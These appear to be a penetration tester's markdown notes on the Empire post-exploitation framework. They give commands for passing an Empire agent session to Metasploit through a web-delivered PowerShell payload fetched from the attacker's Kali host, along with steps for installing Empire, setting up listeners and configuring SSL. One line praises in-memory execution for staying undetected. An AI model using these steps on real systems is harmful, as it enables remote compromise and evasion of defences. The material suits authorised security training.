 > it has the advantage that operates in the powershell memory, helping us to stay undetected.


### sending Empire session to Metasploit
in msfconsole:
	exploit/multi/script/web_delivery
	set srvhost = kali ip
	set lhost = kali ip
	set target 2 = PSH *powershell
	run
	copy the URL of the payload 

in Empire:
	usemodule powershell/cpde_execution/invoke_metasploitpayload
	info
	set URL <paste the URL of the metasploit payload>
	set Agent 65CY4XEG
	execute
	// Now it should open a session in metasploit



## Empire Overview

### Install
- https://github.com/EmpireProject/Empire

```powershell
git clone <url>
cd Empire > cd setup > ./install.sh
```

### Handlers
```powershell
listeners
help
uselistener
userlistener <option of choice>
info = to show options
```

### config to use SSL
```powershell
cd /root/tools/Empire/setup/
./cert.sh
```

in Empire:
set CertPath /root/tools/Empire/data
execute = run/exploit (metasploit)
back = same as (metasploit)


BindIP = lhost (metasploit)
Port = lport (metasploit)
